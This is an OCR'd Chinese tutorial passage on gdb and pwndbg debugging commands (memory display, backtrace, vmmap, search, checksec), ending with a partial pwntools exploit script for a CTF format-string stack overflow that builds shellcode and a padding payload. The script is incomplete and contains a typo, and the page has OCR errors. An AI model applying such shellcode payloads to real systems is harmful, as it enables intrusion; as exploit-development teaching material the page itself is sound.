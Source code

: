 查看数据
print/p symbol_name 
P命令用来打印符号信息(寄存器,变量等等)源码调试中很有用,但是在逆向调试中很少用｡
X/FMT ADDRESS
用来显示内存信息｡其中target是内存地址｡也可以是一个类似a+b的表达式｡
FMT用来控制打印形式｡两个字母组成加一个数字组成｡
第一个字母控制打印格式｡有o(八进制),x(十六进制),d(+进制),u(无符号十进制),t(二进制),f(浮点类型),a(地址类型),i(解析成指令并反编译),C(字符)和s(字符串)
第二个字母用来设定输出长度b(byte),h(halfword),w(word),g(giant,8 bytes)｡其后加一个数字表述输出多少信息｡
backtrace
打印函数调用栈｡通过这个命令可以查看程序到底经过怎样的函数调用过程｡

x /wx 地址  --- 显示地址信息 w4节点 x 16进制 b-1个字节 h-8 g-16 , s--按字符串打印
x /10i 地址 --- 打印10条指令


Context
pwndbg的额外添加的函数｡显示pwndbg默认的context信息｡
dps
dps用于显示地址上的指针和符号信息｡通常在显示栈或者是数据结构的时候使用
Dsassemble
用来反汇编函数｡该命令与x/i不同之处是Dsassemble必须在有函数名符号的情况下才能使用,而
且一次反汇编一个函数｡没法指定长度
Dsassemble main

pwndbg 高级功能
vmmap
此命令可以显示程序的内存结构｡通常从/proc/self/maps中读出｡
search
Pwndbg的search搜索功能｡可以支持各种长度的数据以及字符串搜索的功能｡可以在内存中寻找需要的数据｡
  serach -h
  search hello
checksec
checksec是一个安全检查用脚本,在pwndbg中也有集成｡其作用是查看程序是否开启nx,canary等攻击保护｡

defcone Al赛题的第2个题目是一个通过格式化字符串触发的栈溢出漏洞｡这次我们就以这一题作为这次课程的最后考验｡来实际测试一下如何用pwntools来编写利用脚本｡

    import pwn
    pwn.context.log_level = 'debug'

    def compress(data):
        ...

    shellcode = pwn.shellcraft.i386.linux.sh()
    shellcode = pwn.asm(shellcode)

    payload = ''
    payload += '%259c' #填充259的垃圾数据
    payload += pwn.cyclic(40)
    pyaload = compress(payload)

    t = pwn.process('/tmp/bin')

    t.recvuntil('size: ')

    t.sendline(str(len(payload)))

    t.sendline(payload)
    